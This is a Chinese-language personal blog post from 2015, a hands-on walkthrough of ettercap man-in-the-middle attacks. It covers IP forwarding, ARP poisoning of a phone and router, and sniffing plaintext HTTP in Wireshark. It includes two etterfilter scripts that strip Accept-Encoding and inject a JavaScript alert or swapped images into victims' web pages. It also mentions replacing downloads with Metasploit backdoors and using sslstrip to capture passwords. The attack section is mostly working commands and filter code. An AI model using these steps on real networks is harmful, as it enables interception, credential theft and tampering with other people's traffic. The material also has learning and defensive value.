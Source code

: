 ```yaml
---
layout:     post
title:      ettercap使用小结
date:       2015-11-12 11:40:25
author:     Hsmouc
summary:    用ettercap工具进行ARP毒化和中间人攻击，注入脚本。    
categories: Hacking
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

#ettercap简介：
ettercap是一个进行中间人攻击的全面工具套装，它可以嗅探数据和玩一些其他有意思的把戏…… 我从官网介绍上随意翻译的=_=
#一次中间人攻击实例
- 工具： Ettercap Wireshark 
- 攻击者：Mac OS X 10.10.5
- 目标：iPhone （iOS 9.1）
##step1
打开内核ip转发功能，否则会导致被攻击的对象无法上网。在终端里输入
{% highlight c %}
sudo sysctl net.inet.ip.forwarding=1
{% endhighlight %}
终端提示
{% highlight c %}
net.inet.ip.forwarding: 0 -> 1
{% endhighlight %}
这样就可以开始进行ARP毒化和中间人攻击了。(注意：这是Mac OS X系统的命令，Linux系统请自行Google)
##step2
###嗅探   
ettercap提供了四种用户界面
{% highlight c %}
Text Only – ‘-T’ option
Curses – ‘-C’ option
GTK – ‘-G’ option
Daemon – ‘-D’ option
{% endhighlight %}
我使用的是命令行模式，感觉它UI做的好丑。    
下面是ARP毒化的指令
{% highlight c %}
sudo ettercap -T -q -i en0 -M ARP:remote /192.168.1.4/ /192.168.1.1/
{% endhighlight %}
T参数是Text Only，q参数是安静模式，M参数表示MITM即中间人攻击。192.168.1.4是iPhone的ip地址，192.168.1.1是路由的ip地址。  
  使用该命令后，攻击开始，按q键结束。同时打开Wireshark即可看到目标访问的所有http链接的明文内容。如下图所示：![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg0unp7oj311t0np479.jpg)
###使用插件      
在ettercap可以使用自己编写的插件来实现一些功能，当然ettercap也提供了一些插件。在/usr/local/bin/目录下用vim新建.filter文件。   
我们先尝试注入代码让目标浏览网页时弹窗，代码如下：
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Accept-Rubbish!");
        # note: replacement string is same length as original string
        msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('test');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('test');</script>");
    msg("Injecting OK!!\n");
}
{% endhighlight %}
接着在终端中输入：
{% highlight c %}
etterfilter window.filter -o windowtest3.ef
{% endhighlight %}
简单解释下，可以输入etterfilter -h来获得帮助，o参数是输出文件名。   
效果如下图所示：
![](http://ww1.sinaimg.cn/mw690/005WMcFzgw1exyg212emhj30hs0vkah0.jpg)
再尝试下替换网页的图片试试，还是和上面一样直接上源码；
{% highlight c %}
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   replace("IMG SRC=", "img src=\"http://img5.duitang.com/uploads/item/201507/22/20150722212458_YrGtd.jpeg\" ");
   msg("Filter Ran.\n");
}
{% endhighlight %}
我找了个小埋的图片233，看看效果；
![](http://ww4.sinaimg.cn/mw690/005WMcFzgw1exyg1u3hdsj30hs0vktdi.jpg)
![](http://ww3.sinaimg.cn/mw690/005WMcFzgw1exyg1or9cbj30hs0vk13q.jpg)
![](http://ww2.sinaimg.cn/mw690/005WMcFzgw1exyg10kyknj30hs0vkdv6.jpg)
还可以通过插件来替换对方的下载内容，配合Metasploit生成后门甚至可以完全控制目标计算机。我还没测试过是否能用……
#小结
中间人攻击和中间人毒化利用了ARP(地址解析协议)的固有漏洞，操作简单但是危害极大，原来我一直是主张计算机裸奔党，从来不用杀软。然而对于小白来说，喜欢乱点的同学们，你们真的需要杀毒软件来保护你们的电脑不被入侵。杀毒软件弹个窗请看清楚再关……    
对了，突然想起来https协议就算是用ettercap＋Wireshark也是看不到传输内容的，但是通过sslstrip就可以突破ssl获取密码了，以后有时间再进行测试吧，今天就写到这里。